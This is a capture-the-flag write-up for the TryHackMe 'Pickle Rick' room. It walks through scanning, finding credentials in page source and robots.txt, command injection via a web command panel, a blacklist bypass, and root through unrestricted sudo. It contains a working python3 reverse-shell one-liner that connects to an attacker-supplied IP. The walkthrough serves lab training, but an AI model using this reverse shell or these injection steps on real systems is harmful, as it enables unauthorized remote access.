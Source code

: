 # [THM-PickleRick](https://tryhackme.com/room/picklerick) - Maxwell Caron

A Rick and Morty CTF. Help turn Rick back into a human!


# External

Inital `nmap` scan:
```
$ nmap -sC -sV -oN inital 10.10.69.168

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d0:e3:a6:9f:40:19:68:a8:db:34:29:e9:45:bd:40:91 (RSA)
|   256 77:25:a2:d4:0b:05:17:05:20:3b:a6:74:ef:cf:1a:9f (ECDSA)
|_  256 5c:2a:7b:9b:0d:b3:73:37:6b:7f:32:dc:be:5a:f8:ea (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`gobuster` scan:
```
$ gobuster dir -u http://10.10.69.168 -w /opt/directory-brute.txt -x php,txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.69.168
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/directory-brute.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/05/28 13:50:42 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.69.168/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/robots.txt           (Status: 200) [Size: 17]
```

From our inital scans the obvious first move is to enumerate the web page running on port `80` since we have nothing to go off of for `ssh` 

# Web App

![mainpage](https://i.imgur.com/Xie6ulW.png)

Looking at the main page, nothing realling stands out to us except some room *lore* but, checking out the source of the page by pressing `CTRL + u` we get something interesting.

1.png


In a pretty bold comment we see `rick` has taken a note of his username but no password in sight. Now we know we have a username *most likely* for that `/login.php` page...

![loginpage](https://i.imgur.com/3GaYesG.png)

I tried some quick SQLi payloads to see if we have an easy access but came up with nothing. At first I thought of using `hydra` to brute-force his password but than I looked back at the gobuster scan and saw that we found `robots.txt` this file isn't always useful but you should always check it.

![robots](https://i.imgur.com/iZhpgcx.png)

Inside, we see a *phrase* concatinated into a single word since it was in `robots.txt` I thought this might be a hidden directory, tring to access that page we get a `404` meaning it does not exist. 

After a few minutes of thinking, if `rick` hid his password inside of the web page, he might be hiding his password as well, going off of this thought, I tried using the word that we found in `robots.txt` as `rick`'s password...

![loggedin](https://i.imgur.com/oTIpnvz.png)

It worked! we are greeted with a "Command Panel" hovering out mouse over each of the words in the header of the page, they all redirect us to `/denied.php` stating that *"Only the **REAL** rick can view this page.."*

Trying not to get distracted with that *juicy* command panel I decided to look at the source of the page to see if there was anything else hidden.

![fake](https://i.imgur.com/3oFkuHb.png)

Once again the pattern continues and we see what looks like a base64 hash commented out inside of the page source

Buuuuut, after some attempted decoding, this was nothing but a rabbit hole...

Moving on, from experience I've seen a few of these *"Command Panel"*s before so I decided to input a simple linux command into the panel.

![exec](https://i.imgur.com/g5Cnjaf.png)

Upon clicking execute, we see that the command that we inputted in executed and displayed to us.

There is a log that we can do with this including potentially getting a reverse shell but, I decided not to just straight to a reverse shell and rather do most of my enumeration in this command panel.

![ls](https://i.imgur.com/Lg6A9PA.png)

Running `ls -al` gives us the output above. Looking at this output we see some familiar files such as `index.html`, `robots.txt`, `portal.php`, etc. I realized that we are in the `/var/www/html` directory which is the directory that this `apache2` web server runs off of.

There are a few files that catch my eye here, since we can execute commands we can simple just `cat` these files out... right?

![wrong](https://i.imgur.com/FD6xenJ.png)

wrong. It seems that the `cat` command is disabled, that's fine there are plenty of other ways to read the contents of these files. 

Let's see how they are blocking us from using a certain command.

3.png

Using the `tac` command we can read the source code of the file and see a `javascript` method with an array inside with the blacklisted commands. 

Starting out with the `Sup3rS3cretPickl3Ingred.txt` file, since we are in the web page's file tree, I simply just attached it to the url in the address bar but, you could use `tac` instead of `cat` to do the same thing

![firstflag](https://i.imgur.com/KgERNPh.png)

Inside of this is our first flag!

Next, let's take a look at the `clue.txt` file.

![clue](https://i.imgur.com/M8OZuyz.png)

Reading this file we see that it is hinting at us to look around the file system for the next flag.

Instead of manually looking around, we can use the `find` command inside of the command panel to speed up the process.

2.png

using this command, `find / -name "*second*" 2>>/dev/null` we see a quite promising file by the name `second ingredients` in `rick`'s home directory, let's see if we can `tac` it out.

!(secondflag)[https://i.imgur.com/yqbY0u6.png]

We can! After looking around a bit more to see if we could somehow access the final flag I decided it was time to get a shell.

Heading over to pentestmonkey's [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) Knowing that we cannot use `cat` in our input, we are unable to use the netcat reverse shell, so let's see if we can use `python3` in the command panel. 

![python](https://i.imgur.com/VojqzxJ.png)

Using the `which` command we see that `python3` is installed and from the array of blacklisted commands that we found earlier, we know that we are able to use it as well.

![nclistener](https://i.imgur.com/xb2e9GB.png)

After setting up our `netcat` listener, we can paste the reverse shell into the command panel.
*make sure you are using `python3` not `python`*

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![werein](https://i.imgur.com/ih6Abse.png)

# Internal

Now that we have a shell on the box, I will stablize it by using a few commands..

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

These commands stablize our shell so we can use our arrow keys, the `clear` command, etc.

We see that we are running as a low-privileged user `www-data`, I will start off with some manual enumeration to see if we can escalate our privileges.

I alwasys start off my manual emueration with `sudo -l` this command lists commands that we can use as `sudo`, or the `root` user.

![sudol](https://i.imgur.com/gktO0Eu.png)

Looks like we can user any command as any user without supplying a password!

![privesc](https://i.imgur.com/C7Lgj5D.png)

Just like that we are root, all we have to do is find the final flag.

![finalflag](https://i.imgur.com/VtzZbTT.png)

Checking out the `/root` directory we see `3rd.txt` with the third and final flag inside. That is all of the flags, thank you for joining me :)


